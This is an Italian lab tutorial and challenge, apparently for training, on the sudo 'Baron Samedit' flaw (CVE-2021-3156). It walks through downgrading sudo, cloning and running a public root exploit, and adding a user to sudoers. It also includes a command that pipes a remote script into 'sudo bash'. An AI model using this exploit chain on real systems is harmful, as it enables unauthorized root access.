 [cve-2021-3156]: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-3156
[qualys]: https://en.wikipedia.org/wiki/Qualys
[qualys-blog-post]: https://blog.qualys.com/vulnerabilities-research/2021/01/26/cve-2021-3156-heap-based-buffer-overflow-in-sudo-baron-samedit?_ga=2.226100442.1385623629.1616771039-1815361758.1616771039
[challenge-4-setup]: ./assets/challenge-4-setup.sh

# Challenge 4 - Privilage escalation

Benvenuto nella quinta challenge, difficoltà 🤕🤕🤕🤕.
In questa challenge prenderai i panni di un _hacker_.

**Questa challenge e' a solo scopo educativo, pertanto l'autore della challenge non si assume nessuna responsabilità per l'uso che i partecipanti faranno di questa conoscenza.**

## In Questa Challenge

- Utilizzo di funzioni avanzate della shell.
- Compilare un programma da riga di comando.
- Exploitare la vulnerabilità di sudo.
- Effettuare una privilage escalation.
- Proteggersi dall'attacco.

## Introduzione

La vulnerabilità nota con il nome di _Baron Samedit_ documentata in [CVE-2021-3156][cve-2021-3156], e' una delle scoperte più scioccanti dell'ultimo decennio. _Sudo_ e' un programma preinstallato nella maggior parte dei sistemi operativi GNU/Linux, e' utilizzato per eseguire programmi da riga di comando con _permessi di root_ non essendo root. Purtroppo i programmi non sono perfetti e possono essere exploitati attraverso delle vulnerabilità. Queste vulnerabilità possono essere più o meno note al pubblico. Quando una vulnerabilità viene pubblicata gli sviluppatori si mobilitano per correggere il problema rilasciando una nuova versione.
La vulnerabilità _Baron Sameid_ e' stata presente per più di **10 anni** introdotta con un aggiornamento in _luglio 2011_, secondo il team di ricercatori della [Qualys][qualys] coloro che hanno trovato la vulnerabilità.

Exploitando la vulnerabilità permette di ottenere i _permessi di root_ completi anche non facendo parte del _gruppo sudo_. Questo avviene per un bug con il comando `sudoedit -s`. Per maggiori informazioni riguardo alla vulnerabilità visita il [blog post][qualys-blog-post] sul sito di Qualys.

## Proof Of Concept

Per testare questo exploit assicurati di essere in un ambiente sicuro. Guarda la [Challenge 1][challenge-1] per sapere come installare velocemente una macchina virtuale.

Prima di tutto bisogna installare una versione di _sudo_ che contenga il bug.
Fai il downgrade di _sudo_

``` shell
sudo apt install sudo=1.8.31-1ubuntu1
```

E' possibile che la macchina non abbia i programmi necessari per compilare il codice. Installali

``` shell
sudo apt install build-essential
```

Avendo già i _permessi di root_ come utente attuale non ha senso eseguire l'exploit ora. Crea un nuovo utente

``` shell
sudo adduser test-exploit
```

> Inserisci una password e premi `invio` al resto dei i prompt.

Accedi come l'utente `test-exploit`

``` shell
su test-exploit
```

Verifica che il nuovo utente non sia uno _sudoer_

``` shell
sudo -v
```

> L'output dovrebbe essere: _Sorry, user test-exploit may not run sudo on ubuntu-204_.

Verifica che non abbia privilegi di root

``` shell
touch /etc/test
```

> L'output dovrebbe essere: _touch: cannot touch '/etc/test': Permission denied_.

Su GitHub esistono diverse implementazioni dell'exploit. Guardare il codice sorgente di queste implementazioni e' un ottimo modo per imparare.
Scarica l'exploit

``` shell
git clone https://github.com/blasty/CVE-2021-3156 
```

Compila il programma

``` shell
cd CVE-2021-3156/
make
```

Esegui l'exploit

``` shell
./sudo-hax-me-a-sandwich 1
```

Verifica che tua abbia i _permessi di root_ creando un file in `/etc`

``` shell
touch /etc/test
ls -l /etc/t*
```

Aggiungi l'utente `test-exploit` tra i _sudoers_

``` shell
adduser text-exploit sudo
```

Da ora in poi l'utente `text-exploit` fa parte del gruppo `sudo` quindi potrà eseguire comandi con _permessi di root_.

Per provare che le modifiche siano avvenute veramente e che non e' stato un trucco, riavvia la macchina, accedi come utente `text-exploit` ed inizia ad usare i nuovi super poteri.

## Riassunto

- Cos'è la vulnerabilità _Baron Samedit_.
- Come fare il downgrade di un pacchetto.
- Come creare un nuovo utente.
- Come compilare un programma.
- Come ottenere i _permessi di root_ attraverso un exploit.
- Come aggiungere un'utente al gruppo _sudo_.

## Challenge

Dato l'accesso ad una macchina come utente `challenge-4` con  solo due permessi, l'esecuzione del comando `exit` e dell'editor `vi`. Attraverso una _privilage escalation_ crea il file `/etc/hacked.txt` con all'interno il testo `Sei stato hackerato`.

Prima di iniziare la challenge prepara la macchina. Crea un nuovo utente  `challenge-4` ed esegui [questo script][challenge-4-setup] con _permessi di root_. Lo script configura adeguatamente l'utente `challenge-4` per la challenge e prende in input due argomenti,l'utente e l'hostname.

``` shell
sudo adduser challenge-4
curl https://gitlab.com/pdpfsug/mkspace/challenges/-/raw/master/challenge-4/assets/challenge-4-setup.sh | sudo bash -s challenge-4 challenge-ubuntu
su -l challenge-4
```

- `curl https://gitlab.com/pdpfsug...` serve a scaricare lo script.
- `sudo bash -s challenge-4 challenge-ubuntu` serve ad eseguire lo script.
  - `challenge-4` e' l'utente che hai creato.
  - `challenge-ubuntu` e' il hostname della tua macchina. Per visualizzare l'hostname della tua macchina usa il comando `hostname`. 

> Buona fortuna.
